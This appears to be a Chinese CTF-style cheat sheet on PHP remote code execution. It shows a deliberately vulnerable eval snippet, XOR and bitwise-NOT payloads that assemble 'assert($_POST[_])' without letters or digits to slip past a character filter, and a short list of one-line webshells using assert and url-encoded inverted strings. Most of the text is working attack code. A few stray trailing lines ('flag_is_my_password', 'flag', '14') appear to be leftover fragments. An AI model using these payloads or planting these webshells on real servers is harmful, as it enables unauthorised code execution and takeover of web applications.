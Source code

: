 ### RCE

#### 无数字和字母的webshell

```php
<?php
if(!preg_match('/[a-z0-9]/is',$_GET['shell'])) {
  eval($_GET['shell']);
}
```

**payload：**

**1.异或**

**这是最简单、最容易想到的方法。在PHP中，两个字符串执行异或操作以后，得到的还是一个字符串。所以，我们想得到a-z中某个字母，就找到某两个非字母、数字的字符，他们的异或结果是这个字母即可。**

```php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';
$___=$$__;
$_($___[_]); // assert($_POST[_]);
$_=('%40'^'%21').('%7B'^'%08').('%7B'^'%08').('%7B'^'%1E').('%7E'^'%0C').('%7C'^'%08');$__='_'.('%0D'^'%5D').('%0F'^'%40').('%0E'^'%5D').('%0B'^'%5F');$___=$$__;$_($___[_]);
```

**2.取反**

利用的是UTF-8编码的某个汉字，并将其中某个字符取出来，比如`'和'{2}`的结果是`"\x8c"`，其取反即为字母`s`：

```php
$__=('>'>'<')+('>'>'<');
$_=$__/$__;

$____='';
$___="瞰";$____.=~($___{$_});$___="和";$____.=~($___{$__});$___="和";$____.=~($___{$__});$___="的";$____.=~($___{$_});$___="半";$____.=~($___{$_});$___="始";$____.=~($___{$__});

$_____='_';$___="俯";$_____.=~($___{$__});$___="瞰";$_____.=~($___{$__});$___="次";$_____.=~($___{$_});$___="站";$_____.=~($___{$_});

$_=$$_____;
$____($_[$__]);
```



#### 一些webshell收集

```php
call_user_func('assert', $_REQUEST['pass']);
call_user_func_array('assert', array($_REQUEST['pass']));
```

```php
(~%8F%97%8F%96%91%99%90)();//phpinfo(),%8F%97%8F%96%91%99%90是phpinfo取反后的url编码
```

```php
(~%9E%8C%8C%9A%8D%8B)(~%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%9E%A2%D6);
//assert  ~%9E%8C%8C%9A%8D%8B
//eval($_POST[a])   ~%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%9E%A2%D6
```

flag_is_my_password

flag

14
